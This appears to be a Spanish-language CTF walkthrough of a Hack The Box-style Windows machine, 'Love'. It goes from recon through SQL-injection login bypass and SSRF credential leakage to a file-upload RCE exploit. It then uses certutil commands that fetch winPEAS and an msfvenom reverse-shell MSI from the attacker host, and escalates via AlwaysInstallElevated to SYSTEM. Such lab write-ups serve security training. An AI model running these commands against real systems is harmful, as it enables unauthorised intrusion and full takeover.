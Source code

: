 ## Summary

Tags: #Windows #HTTP #HTTPS #SSRF #RCE #ReverShell #WinPEAS #Msfvenom #Nmap 
N
- IP -> 10.10.10.239
- Ports -> TCP (80,135,139,443,445,3306,5000,5040,5985,7680,47001,), UDP (idk)
- OS ->  Windows 
- Services & Applications
    - 80 -> Apache httpd 2.4.46 
    - 443 -> HTTPS


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

* Podemos ver si se inyectan comandos SQL en la pagina web
```bash
❯ Ctrl + u                             # Para ver el codigo fuente
```

Cuando una Web es muy simple, podemos usar el siguiente comando 
```bash
❯ nmap --script http-enum -p80 ❮Target IP❯ -oN WebScan #  http-enum = Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

	#  -p80 = Indica el puerto que se quiere escanear
	#  Target IP = Dirección IP que se quiere escanear
	#  -oN WebScan = Exporta el output a un fichero en formato nmap con nombre “WebScan”
```

Por lo que encontramos un posible **Admin** folder y lo colocamos en la url y efectivamente, nos coloca otra ventana de inicio de sesion pero en este caso nos pone usuario y passwd. 

```bash
❯ searchsploit  voting system                 # Para buscar un exploit
```
Para ver si hay vulnerabilidades con ese nombre. Encontramos uno que dice **Autentication Bypass 1.0 (SQLI)** y es un archivo .txt, los que dicen online creemos que no aplican 

```bash
❯ searchsploit -x 49843.txt              # Para ver el contenido del exploit 

	# x = examin
```
Para ver el contenido del archivo (x=examing)

Al ver contenido del exploit nos damos cuenta que debemos de tramitar un peticion por **POST** y debemos de meter en el login una inyeccion SQL. Por lo que nos disponemos a abrir BurpSuite y copiamos todo el login que se encuentra en el archivo .txt qye habiamos visto

Despues de colocar la inyeccion y darle Forward nos loggea automaticamente. 
Podemos enviar la data que encontramos en el Searchsploit con el boton de ‘Forward’ y luego desactivamos el ‘intercept a off’


**** 

Otra forma de hacerlo es por medio del puerto **443 ssl/http** en donde observamos que existe un subdominio el cual podemos utilizar para saber si hay algo que nos pueda ayudar. Pero antes debemos de agregar el **dominio y subdominio** a la ruta **/etc/hosts** ya que existe un virtual hosting.

```bash
❯ openssl s_client -connect ❮IP❯:443     # Para conectarnos al openssl e inspeccionar el certificado del puerto 443
```
* staging.love.htb y love.htb -> El dominio que debemos de agregar

Una vez agregado el subdominio podemos mirarlo en la pagina web 
Tiene una pestana de **demo** en donde hay una opcion que nos indica que ‘**especifiquemos una url**’

```bash
❯ python3 -m http.server 80              # Nos montamos un servidor http 80
```

```bash
❯ nano test                              # Nos creamos un archivo llamado test en el cual le agregamos cualquier informacion
En la pagina web colocamos la url de nuestro servidor y buscamos ese archivo http://10.10.14.2/test y nos damos cuenta que nos muestra el contenido de nuestro archivo
```

Cuando la pagina web nos muestra informacion en la misma web podemos creer que es un SSRF
Por lo que nos podemos aprovechar de eso y hacer un **Server Side Request Forgery (SSRF)** 

Primero hacemos que escanee la url del puerto 80 **\http://127.0.0.1** o sea, escaneara el propio localhost de la maquina victima

Haremos que el mismo servidor se haga un internal port discovery desde el **local-host (\http://localhost:5000/ o \http://127.0.0.1:5000)** por el puerto 5000 ya que ese puerto es open, esto significa que el mismo servidor nos podria dar informacion por un puerto especifico haciendo la peticion internamente.

Ahi encontraremos el usuario admin y su passwd 

****

Buscaremos en searchsploit pero ahora el exploit en donde dice que ya estamos autenticados que se llama **File Upload RCE (Autenthicated Remote Code Execution)**

```bash
❯ searchsploit ❮exploit_name❯                 # Para buscar un exploit
```

```bash
❯ searchsploit -m ❮exploit_name❯              # Para descargarnos el exploit .py/.txt 

	# m = move
```
Puedes descargarte el archivo sploit ejecutable a tu computadora para despues poder ejecutarlo (m=move). Podemos observar que es el tipico sploit en el cual debes de meter IP, usuario, contrasena, IP de la revershell, Puerto de la revershell, para poder hacer esa autenticacion y poder ser ususario root.

```bash
❯ nano 49445.txt                              # Para ver el contenido del exploit y modificarlo, para poder usarlo 
```

Debemos de hacer algunas modificaciones al script como:
* love.htb -> Colocarle la IP de la pagina victima
* admin -> usuario
* loveisintheair!!! -> passwd
* 10.10.14.2 -> Nuestra IP
* 443 -> Puerto de Netcat

Debemos quitarle todos los /**votesystem/** ya que eso no existe en nuestra ruta en el servidor victima.
```python
❯ python3 49445.py                            # Para ejecutar el exploit
```

Una vez corregido ejecutamos el script y nos pondemos en escucha en el puerto 443
```bash
❯ rlwrap nc -nlvp 443
```

## User

Una vez adentro nos vamos a:
```bash
❯ cd C:\Users                    # Nos cambiamos de directorio
❯ dir                            # Para ver el contenido del directorio
❯ cd Phoebe                      # Nos movemos al dir del usuario phoebe
❯ cd Desktop                     # En el desktop podemos encontrar la primer flag, user.txt
```

Ahora debemos de escalar privilegios para poder ser usuario root.
```bash
❯ cd Windows/temp                # Empezamos llendonos a ese directorio para crear una carpeta, ya que ese dir tiene privilegios de lectura y escritura
❯ mkdir Privesc                  # Creamos el directorio para escalar privilegios.
```

```bash
❯ systeminfo                     # Podemos observar la informacion del sistema Windows
```

* **Herramienta WinPEAS**: [WinPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) 
Nos dirigimos a: Download the **latest obfuscated and not obfuscated versions from here**, -> Despues debemos de descargar el archivo **winPeasx64.exe**

Podemos usar la herramienta **Winpeas** en el sistema Windows. Nos dirigimos en Google a la pagina oficial en Github de Carlospolop y descargamos de ahi el archivo ejecutable de 64 bits. Lo encontramos en realises como **winPeasx64.exe**

Lo traemos a nuestra ruta de trabajo y nos creamos un servidor para poder subirlo a la maquina victima
```bash
❯ python3 -m http.server 80              # Nos montamos un servidor http 80
```

Despues en la maquina victima Windows le decimos que queremos cargar un archivo.
```
❯ certutil.exe -f -urlcache -split \http://10.10.14.2/winPeas.exe winPeas.exe
```
Subiremos el archivo con el nombre de winPeas.exe y lo depositaremos como winPeas.exe en el equipo victima, esto se lograra con una peticion GET a nuestro servidor.

**WinPeas** sirve para detectar vias potenciales para poder escalar privilegios.
```bash
❯ winPeas.exe                            # Para ejecutar el archivo .exe en Windows
```

Podemos observar que de toda la informacion nos despliega el ‘**Checking AlwaysInstallElevated**’ y tiene:
* **set 1 in HKLM** 
* **set 1 in HKCU** lo cual es malo para esa maquina Windows.

* [Hacktricks](https://book.hacktricks.xyz/welcome/readme) nos ayudara a escalar privilegios

Vamos a la url que nos ofrece esa vulnerabilidad, 
Filtrmos por **AlwaysInstallElevated**
Nos indica que debemos utilizar el siguiente comando en nuestra maquina de atacante para poder crear un archivo que despues subiremos a la maquina Windows

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=10.10.14.2 LPORT=443 -f msi -o reverse.msi 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```


## Root

Una vez creado el archivo **.msi** lo subimos a la maquina victima creando un servidor con python como lo hicimos anteriormente.
```bash
❯ python3 -m http.server 80              # Nos montamos un servidor http 80
```

Despues en la maquina victima le decimos que queremos cargar ese archivo.
```bash
❯ certutil.exe -f -urlcache -split http://10.10.14.2/reverse.msi reverse.msi

	# Ip = Maquina de atacante
```
Buscamos el archivo con ese nombre **reverse.msi** y lo depositarremos como reverse.msi en el equipo victima Windows.

```bash
❯ rlwrap nc -nlvp 443
```

Para instalar el archivo .msi en una maquina Windows debemos de colocar el siguiente comando:
```bash
❯ msiexec /quiet /qn /i reverse.msi
```
Una vez que ejecutemos el archivo en la maquina victima Windows, esta nos dara una revershell y en este caso seremos usuario **Authority\System** que seria el root.
Ahora nos vamos al Desktop del Administrator y buscamos la flag root.txt